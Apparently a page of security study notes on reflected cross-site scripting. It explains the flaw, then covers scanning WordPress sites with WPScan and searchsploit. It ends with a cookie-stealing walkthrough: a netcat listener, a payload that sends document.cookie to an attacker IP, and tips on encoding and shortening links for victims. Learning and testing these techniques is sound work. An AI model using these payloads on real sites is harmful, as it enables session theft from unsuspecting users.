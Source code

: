 # 5.3.2 Reflected XSS

## Reflected XSS

{% embed url="https://portswigger.net/web-security/cross-site-scripting/reflected" %}

<figure><img src="../../../../.gitbook/assets/image (65).png" alt=""><figcaption><p><a href="https://www.geeksforgeeks.org/what-is-cross-site-scripting-xss/">https://www.geeksforgeeks.org/what-is-cross-site-scripting-xss/</a></p></figcaption></figure>

Reflected cross-site scripting (or XSS) arises when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way.

Suppose a website has a search function which receives the user-supplied search term in a URL parameter:

`https://insecure-website.com/search?term=gift`

The application echoes the supplied search term in the response to this URL:

`<p>You searched for: gift</p>`

Assuming the application doesn't perform any other processing of the data, an attacker can construct an attack like this:

`https://insecure-website.com/search?term=<script>/*+Bad+stuff+here...+*/</script>`

This URL results in the following response:

`<p>You searched for: <script>/* Bad stuff here... */</script></p>`

If another user of the application requests the attacker's URL, then the script supplied by the attacker will execute in the victim user's browser, in the context of their session with the application.

### Exploiting Reflected XSS Vulnerabilities in WordPress

<details>

<summary>What is WordPress?</summary>

WordPress is a popular open-source content management system (CMS) used for creating websites and blogs. It provides a user-friendly interface and a wide range of plugins and themes, making it easy for users to build and customize their websites without needing extensive technical knowledge. WordPress is highly customizable, scalable, and is used by millions of websites worldwide.

</details>

Mainly by not frequently updating installed themes and plugins versions, vulnerabilities may occur, and this is where the WPScan tool comes in.

WPScan is a security scanner specifically designed to test the security of WordPress websites. It can identify security vulnerabilities in WordPress installations, themes, and plugins. WPScan works by scanning the target website for known security issues, such as outdated software versions, weak passwords, and common configuration errors. It helps website owners and developers identify and fix security flaws to protect their websites from potential attacks and breaches.

We can install it using following command: `sudo apt-get install wpscan`



{% embed url="https://github.com/wpscanteam/wpscan" %}

* Go to wpscan.com, register, login and configure account.
* Generate an API key/token
* Launch scan -> `wpscan --url <Website_URL>`
* See results and search potential exploit on exploitdb using `searchsploit <vulnerability_name>`
* Encode and shorten the link possibly to be sent to the victim (to hiding JS tags)

### Cookie Stealing Via Reflected XSS

* First verify that website is vulnerable to XSS -> `<script>alert("XSS")</script>`
* Take on listening on attacker machine using netcat -> `nc -lvnp 4444`
* Insert payload at the end of website -> n`ew Image() .src='http://<Attacker_IP>:4444/?cookie=' + encodeURI(document.cookie);`
* Encode and shorten the link possibly to be sent to the victim (to hiding JS tags), we can use BurpSuite decoder

<figure><img src="../../../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

* Obtain connection on netcat in listening.
